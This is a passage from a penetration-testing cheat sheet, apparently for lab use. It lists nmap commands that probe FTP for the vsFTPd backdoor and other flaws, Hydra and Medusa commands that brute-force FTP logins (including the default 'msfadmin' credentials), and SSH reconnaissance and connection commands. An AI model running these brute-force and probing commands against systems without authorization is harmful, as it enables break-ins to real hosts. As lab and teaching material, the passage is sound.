#### FTP Vulnerability Scanning
```bash
# Check for vsFTPd backdoor
nmap --script ftp-vsftpd-backdoor.nse -p21 <IP>

# Scan for all FTP vulnerabilities
nmap --script "ftp-*" -p21 <IP>

# Check for brute force vulnerabilities
nmap --script ftp-brute.nse -p21 <IP>
```

#### FTP Password Attacks
```bash
# Using Hydra with known username
hydra -l msfadmin -p msfadmin ftp://<IP>

# Using Hydra with username list and password list
hydra -L users.txt -P passwords.txt ftp://<IP>

# Using special options (-e nsr: try null password, same as login, reversed login)
hydra -L users.txt -e nsr ftp://<IP>

# Using Medusa
medusa -U users.txt -P passwords.txt -h <IP> -n 21 -M ftp
```

### Port 22 - SSH Services

#### Identifying SSH Scripts
```bash
# List all available SSH scripts
locate *.nse | grep ssh
```

#### SSH Reconnaissance
```bash
# Basic SSH scan
nmap <IP> -p22

# Service version detection
nmap -sV <IP> -p22

# Check SSH host keys
nmap <IP> -Pn -p22 -n --script ssh-hostkey.nse
```

#### SSH Connection
```bash
# Basic SSH connection
ssh username@<IP>

# Specify port if non-standard
ssh username@<IP> -p 2222

# Specify identity file (private key)
ssh -i private_key.pem username@<IP>
```
